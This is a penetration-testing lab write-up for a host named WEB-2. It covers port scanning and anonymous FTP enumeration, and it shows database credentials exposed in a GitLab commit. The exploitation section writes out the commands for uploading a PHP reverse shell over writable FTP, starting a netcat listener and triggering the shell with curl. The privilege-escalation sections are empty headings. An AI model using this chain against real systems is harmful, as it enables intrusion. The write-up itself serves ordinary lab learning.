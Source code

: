 ```yaml
---
description: 10.10.0.103
---
```


# WEB-2

## Information Gathering

Scanned all TCP ports:

```
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0           10918 Jul 25  2021 index.html
|_drwxrwxrwx    2 0        0            4096 Jul 25  2021 temp [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.0.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 92:c6:96:e8:f6:71:ab:1c:f4:7e:1e:c8:a3:4b:3d:5f (RSA)
|   256 da:8d:4e:d1:cb:2b:b4:53:67:bf:30:1a:df:2e:66:d8 (ECDSA)
|_  256 6a:55:41:1f:85:29:9d:b7:26:3b:78:13:03:25:15:7e (ED25519)
80/tcp  open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
443/tcp open  ssl/http nginx
| http-robots.txt: 54 disallowed entries (15 shown)
| / /autocomplete/users /autocomplete/projects /search 
| /admin /profile /dashboard /users /help /s/ /-/profile /-/ide/ 
|_/*/new /*/edit /*/raw
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was https://10.10.0.103/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
| ssl-cert: Subject: commonName=10.10.0.103
| Not valid before: 2021-07-17T14:19:12
|_Not valid after:  2021-08-16T14:19:12
|_ssl-date: TLS randomness does not represent time
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
No UDP ports are open
```

Notes:

* 21/FTP -- Anonymous login allowed -- need to enumerate
  * I immediately reailize that I have rwx permissions in the temp directory

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

* Can we write a file here
  * Made a file called test.txt
  * Attempted to put it in FTP -- it worked!

## Enumeration

### Port 80 - HTTP (Apache)

* Ran directory bruteforce
  * We have a file index on /temp
  * I was able to write a file to it and navigate to it via HTTP (test.txt)
  * Added a PHP reverse shell -- Success
* Ran vhosts -- nothing

### Port 443 - Nginx

{% embed url="https://10.10.0.103/brandon/website-dev/-/commit/9aa71e07f744323c6ebd1fbf568cbe7c234fc0e7" %}

* We see sa credentials for a data base

```
$connectionInfo = array( "Database"=>"gitlab", "UID"=>"sa", "PWD"=>"VeryVeryVerySecure1!");
```

```
sa

VeryVeryVerySecure1!
```

## Exploitation

### FTP Anonymous Access to RCE

This is the exploit I was able to take advantage of to write my PHP reverse shell to and execute via curl.

PHP Reverse Shell Code:

{% embed url="https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php" %}

Access Anonymous FTP:

```
ftp 10.10.0.181 -a
put php-reverse-shell.php
exit
```

Begin netcat listener:

```
nc -lnvp 1337
```

Trigger the reverse shell:

```
curl http://10.10.0.103/temp/php-reverse-shell.php
```

* We are now <mark style="color:yellow;">www-data</mark>

## Privilege Escalation

### Local enumeration

### PrivEsc vector

## Proofs
